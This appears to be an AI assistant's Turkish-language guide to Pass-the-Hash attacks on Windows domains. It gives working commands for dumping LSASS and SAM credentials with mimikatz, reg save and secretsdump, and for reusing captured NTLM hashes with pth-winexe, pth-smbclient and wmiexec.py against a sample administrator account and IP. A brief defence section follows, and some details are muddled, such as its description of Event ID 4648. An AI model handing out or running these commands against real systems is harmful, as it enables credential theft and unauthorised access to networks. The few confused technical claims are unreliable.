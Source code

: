 ### Pass-the-Hash (PtH) Saldırıları: Detaylı Teknik Rehber

#### **1. Pass-the-Hash Nedir?**
Pass-the-Hash saldırısı, bir kullanıcının kimlik doğrulama bilgilerini (parola yerine, parola hash’i) kullanarak hedef sistemlere erişim sağlama yöntemidir. Bu saldırı, özellikle Windows sistemlerinde yaygındır ve NTLM kimlik doğrulama protokolündeki güvenlik açıklarından yararlanır.

---

#### **2. Saldırı Ön Koşulları**
1. **Hash Elde Etme**: Saldırganın hedef kullanıcının NTLM hash’ini ele geçirmesi gerekir.
   - Hash, genellikle aşağıdaki yöntemlerle elde edilir:
     - **LSASS İşleminden Dump Alma**: `mimikatz`, `procdump`, veya benzeri araçlarla.
     - **SAM Dump**: `secretsdump.py` veya `reg save` gibi araçlarla.
     - **Network Sniffing**: NTLMv2 hash’lerini SMB relay saldırılarıyla yakalama.
2. **Yerel veya Uzaktan Erişim**: Saldırgan, hash’i test edeceği bir sisteme erişebilmelidir.
3. **Hedef Sistemin NTLM Kullanıyor Olması**: Sistem, NTLM tabanlı kimlik doğrulamayı etkinleştirmiş olmalıdır.

---

#### **3. NTLM ve Hash Yapıları**
- NTLM hash'leri iki temel bileşenden oluşur:
  - **LM Hash**: Eski ve zayıf bir hash formatıdır (modern sistemlerde genellikle devre dışıdır).
  - **NT Hash**: Kullanıcı şifresinin MD4 ile hash'lenmiş halidir.
  
Örnek NT Hash:
```
aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

---

#### **4. Saldırı Adımları**
##### **4.1 Hash Elde Etme**
1. **Mimikatz Kullanımı**:
   - `privilege::debug` komutuyla gerekli izinleri alın.
   - `sekurlsa::logonpasswords` veya `sekurlsa::msv` komutları ile NTLM hash'lerini çıkarın.
2. **SAM Dosyasını Dump Etme**:
   - `reg save HKLM\SAM sam.save`
   - `reg save HKLM\SYSTEM system.save`
   - `secretsdump.py -sam sam.save -system system.save` komutları ile hash çıkarma.
3. **Network üzerinden Hash Yakalama**:
   - Responder veya NTLM Relay araçlarını kullanarak SMB veya LDAP üzerinden hash yakalama.

---

##### **4.2 Hash’i Kullanarak Yetkisiz Erişim**
Hash’i hedef sistemde aşağıdaki araçlarla kullanabilirsiniz:
- **Mimikatz ile PtH**:
  - Komut:
    ```
    sekurlsa::pth /user:Administrator /domain:target.domain /ntlm:<hash> /run:cmd.exe
    ```
- **Impacket araçlarıyla PtH**:
  - `pth-smbclient`:
    ```
    pth-smbclient -U <username> -H <hash> //<target-ip>/C$
    ```
  - `wmiexec.py`:
    ```
    wmiexec.py <domain>/<username>@<target-ip> -hashes <LM:NT>
    ```

---

#### **5. Örnek Senaryo**
- **Hedef**: Domain ortamındaki bir Windows Server (192.168.1.10).
- **Elde Edilen Hash**:
  ```
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
  ```

**Adımlar**:
1. **Hash Kullanarak Sistem Erişimi**:
   ```
   pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c //192.168.1.10 cmd.exe
   ```

2. **File Share Erişimi**:
   ```
   smbclient -U Administrator -H <hash> //<target-ip>/C$
   ```

3. **Komut Çalıştırma (WMI veya SMB)**:
   ```
   wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c Administrator@192.168.1.10
   ```

---

#### **6. Güvenlik Önlemleri**
1. **Hash'lerin Ele Geçirilmesini Engelleyin**:
   - LSASS erişimini kısıtlayın (Credential Guard kullanımı).
   - NTLM kimlik doğrulamasını sınırlandırın.
   - Güçlü parolalar kullanarak brute-force saldırılarını zorlaştırın.
2. **NTLMv1'i Devre Dışı Bırakın**:
   - Sadece NTLMv2 kullanımını zorunlu kılın.
3. **Lokal Admin Hesaplarını İzole Edin**:
   - `LAPS` (Local Administrator Password Solution) kullanarak her sistemde farklı admin şifreleri oluşturun.
4. **Şüpheli Aktiviteleri İzleyin**:
   - Event ID 4624 (NTLM login denemeleri) ve 4648 (şifre hash ile giriş) aktivitelerini izleyin.
5. **Least Privilege**:
   - Kullanıcıların gereksiz admin yetkilerini kaldırın.

---

#### **7. İleri Teknikler**
- **Silver Ticket Saldırıları**:
  NTLM hash yerine Kerberos TGS hash’i kullanarak daha güçlü bir erişim elde etme.
- **Golden Ticket Saldırıları**:
  Domain Controller'dan elde edilen hash ile tüm domain kontrolünü ele geçirme.

---

#### **8. Araçlar ve Kullanım**
| Araç           | Açıklama                           |
|-----------------|------------------------------------|
| Mimikatz        | LSASS’tan hash çıkarma            |
| Impacket        | PtH saldırıları için birçok araç  |
| Responder       | Hash sniffing için kullanılır     |
| CrackMapExec    | PtH saldırıları ve lateral hareket|
| WinRM           | Windows uzaktan yönetim          |

Bu rehber ile, Pass-the-Hash saldırısının temellerinden ileri düzey kullanımına kadar detaylı bilgiler sundum. Daha fazla yardım için belirtiniz. 😊
